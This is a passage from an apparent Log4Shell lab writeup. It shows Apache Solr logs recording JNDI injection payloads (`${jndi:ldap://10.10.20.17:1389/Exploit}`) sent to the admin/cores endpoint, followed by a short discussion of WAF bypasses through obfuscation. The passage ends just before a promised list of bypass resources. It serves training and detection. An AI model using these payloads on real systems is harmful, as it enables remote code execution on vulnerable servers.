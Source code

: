 ```hcl
2022-04-07 01:00:51.024 INFO  (qtp1083962448-37) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={indexInfo=false&wt=json&_=1649292740265} status=0 QTime=0
2022-04-07 01:00:51.032 INFO  (qtp1083962448-22) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/info/system params={wt=json&_=1649292740267} status=0 QTime=10
2022-04-07 01:01:01.066 INFO  (qtp1083962448-46) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={indexInfo=false&wt=json&_=1649292740265} status=0 QTime=0
2022-04-07 01:01:01.071 INFO  (qtp1083962448-41) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/info/system params={wt=json&_=1649292740267} status=0 QTime=2
2022-04-07 01:01:01.119 INFO  (qtp1083962448-45) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/info/threads params={wt=json&_=1649293261533} status=0 QTime=47
2022-04-07 01:01:13.040 INFO  (qtp1083962448-43) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={indexInfo=false&wt=json&_=1649292740265} status=0 QTime=0
2022-04-07 01:01:13.052 INFO  (qtp1083962448-18) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/info/system params={wt=json&_=1649292740267} status=0 QTime=6
2022-04-07 01:01:13.056 INFO  (qtp1083962448-43) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/info/system params={wt=json&_=1649292740267} status=0 QTime=15
2022-04-07 01:05:45.405 INFO  (qtp1083962448-17) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2022-04-07 01:07:06.466 INFO  (qtp1083962448-23) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2022-04-07 01:17:12.021 INFO  (qtp1083962448-36) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={foo=${jndi:ldap://10.10.20.17:9001}} status=0 QTime=5
2022-04-07 01:42:10.099 INFO  (qtp1083962448-37) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={foo=Reference Class Name: foo
} status=0 QTime=0
2022-04-07 01:46:45.134 INFO  (qtp1083962448-38) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={foo=${jndi:ldap://10.10.20.17:1389/Exploit}} status=0 QTime=1
2022-04-07 01:47:22.821 INFO  (qtp1083962448-14) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={foo=${jndi:ldap://10.10.20.17:1389/Exploit}} status=0 QTime=0
```
{% endcode %}

## Bypasses

The JNDI payload that we have showcased is the standard and "typical" syntax for performing this attack.

If you are a penetration tester or a red teamer, this syntax might be caught by web application firewalls (WAFs) or easily detected. If you are a blue teamer or incident responder, you should be actively hunting for and detecting that syntax.

Because this attack leverages **`log4j`**, the payload can ultimately access all of the same expansion, substitution, and templating tricks that the package makes available. This means that a threat actor could use any sort of tricks to hide, mask, or obfuscate the payload.

With that in mind, there are honestly an unlimited number of bypasses to sneak in this syntax. While we will not be diving into the details in this exercise, you are encouraged to play with them in this environment. Read them carefully to understand what tricks are being used to masquerade the original syntax.

There are numerous resources online that showcase some examples of these bypasses, with a few offered below:
